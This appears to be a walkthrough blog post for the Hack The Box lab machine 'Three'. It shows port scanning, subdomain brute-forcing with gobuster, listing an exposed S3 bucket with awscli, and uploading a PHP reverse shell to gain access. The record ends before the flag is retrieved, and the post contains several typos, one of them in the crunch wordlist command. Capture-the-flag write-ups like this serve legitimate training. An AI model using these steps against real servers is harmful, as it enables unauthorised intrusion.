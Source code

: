 ```yaml
---
layout: post
title: Walkthrough - Three
published: true
---
```


Tags: Security, AWS, DNS, VHOST.
Description: Hackthebox boot2root machine.
Difficulty: Very-Easy

* * *

## Task 1 How many TCP ports are open?

- `sudo nmap -Pn -sS 10.129.77.119 -p- -vvv`

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

* * *

## Task 2 What is the domain of the email address provided in the "Contact" section of the website?

- `thetoppers.htb`

* * *

## Task 3 In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

- `/etc/hosts`

* * *

## Task 4 Which sub-domain is discovered during further enumeration?

Add thetopppers.htb to your /etc/hosts file. After adding we can scan for sub-somains.

* * *

## Task 5 Which service is running on the discovered sub-domain?

We have a hint that the sub-domain is two characters here. I dont know of any 2 char or digit wordlists so goign to make one with `crunch 1 2 0123456789abcdefghijklmnopqrstuvqxyz -o dnslist.txt`. DNS with gobuster doesnt work for this list but using gobuster vhost does.

- `gobuster vhost -u thetoppers.htb -t 100 -w dnslist.txt`
- `amazon s3`

* * *

## Task 6 Which command line utility can be used to interact with the service running on the discovered sub-domain?

- `awscli`

* * *

## Task 7 Which command is used to set up the AWS CLI installation?

- `aws configure`

* * *

## Task 8 What is the command used by the above utility to list all of the S3 buckets?

- `aws s3 ls`

* * *

## Task 9 This server is configured to run files written in what web scripting language?

- `php`

* * *

## Submit root flag 

With this information we can now connect to the sevrer. Configure with `aws configure` and use temp parameters.

We can use ls to list the s3 endpoints the server is hosting

- `aws --endpoint=http://s3.thetoppers.htb ls`

Now we can list objects the specific buckets contain.

- `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

Seeing as this bucket is available for us to visit and powered by php we can then copy a reverse shell to the server and get access.

- `aws --endpoint=http://s3.thetoppers.htb s3 cp php-reverse-shell.php s3://thetoppers.htb/images/`

![](/assets/three01.png)

* * *